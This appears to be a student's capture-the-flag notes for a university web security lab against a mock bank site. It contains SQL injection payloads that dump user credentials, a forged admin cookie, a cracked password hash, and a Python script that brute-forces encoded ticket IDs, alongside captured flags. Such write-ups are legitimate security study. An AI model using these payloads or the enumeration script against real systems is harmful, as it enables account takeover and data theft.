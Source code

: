   - `') OR '1'='1') ORDER BY id ASC -- )`
  - COMP6443{USE_BY_ORDER.ejUzMTI3OTk=.GlrqgBw23poRygQnGyKJZw==}
- Find alternate means to login other than the obvious. Does not require any SQLi.
  - COMP6443{GET_STILL_ENABLED.ejUzMTI3OTk=.rQ2uMbuCmYiAxdnIyOT87A==}
    - https://bigapp.quoccabank.com/login.html?susername=test@gmail.com&spassword=password
      - If you consider how the login process works; you send POST request to the /login.html endpoint passing in `susername` and `spassword` and payloads of the POST body
      - Serverside, a body parser would store the parameters in the request object i.e. with Express.js the body can be found in the req.body attribute
      - As you've seen in other websites and challenges, data can also be passed through query parameters - which are the ones that appear in a URL
      - Some web services in the real world don't properly differentiate the different types of requests and so just naively parse any request data
- Become admin without logging into admin.
  - change cookie to admin
    - COMP6443{GET_BY_WITH_BYPASS.ejUzMTI3OTk=.EXs5cRBDrSw7/3Vaxxh7NA==}
    - test@gmail.com:admin
    - dGVzdEBnbWFpbC5jb206YWRtaW4=
- Login to admin using its actual password without online brute-forcing.

  - `') OR '1'='1') UNION SELECT email,password,city,state,type,mobile from users -- )`
  - admin@quoccabank.com

  - 0e7517141fb53f21ee439b355b5a1d0a -> Admin@123
  - COMP6443{LOGIN_USING_ADMIN_CREDS.ejUzMTI3OTk=.WqYFeEvFeWodSFvhtgv/fg==}
- Create duplicate user with existing user's email.

  - use repeater - payload: `fname=Gabriel&lname=Ting&email=gabriel%40gmail.com'+OR+"1"%3d"1"+--+)&mobile=000000&city=Georges+Hall&state=NSW&postcode=2198&npasswd=password&rpasswd=password`
  - COMP6443{CREATE_BY_WITH_BYPASS.ejUzMTI3OTk=.so/0fkSZ94j7jfJorZDpww==}

### support.quoccabank.com

- COMP6443{PATIENCE_IS_KEY.ejUzMTI3OTk=.WpIulgpwpQIwNPSCVll7Fg==}
  - 1125:4
  
- COMP6443{H0W_D1D_U_F1GURE_OUT_BA5358.ejUzMTI3OTk=.574iDB0jIh48emKo3OeW5A==}

  - 9447:1

- URL is encoded in base58 in the format of `<customer_id>:<ticket_id>` - brute force combinations

  ```python
  def brute_force(code, throttle=0):
      # params
      url = 'https://support.quoccabank.com/raw/'
  
      # make request
      res = requests.get(url + code, cert=(cert_path, key_path))
      time.sleep(throttle)
  
      if res.status_code == 420:
          # make the same request again
          brute_force(code, throttle + 0.1)
      else: 
          print(code, f'{i}:{j}', res.status_code)
          if res.status_code != 404 and "COMP" in res.text:
              print(res.text)
              print("=== FOUND ===")
              exit()
  
  if __name__ == '__main__':
      # flag 1 - 1125:4
      # flag 2 - 9447:1
      for i in range(9447, 10000):
          for j in range(10):
              code = base58.b58encode(f'{i}:{j}').decode()
  ```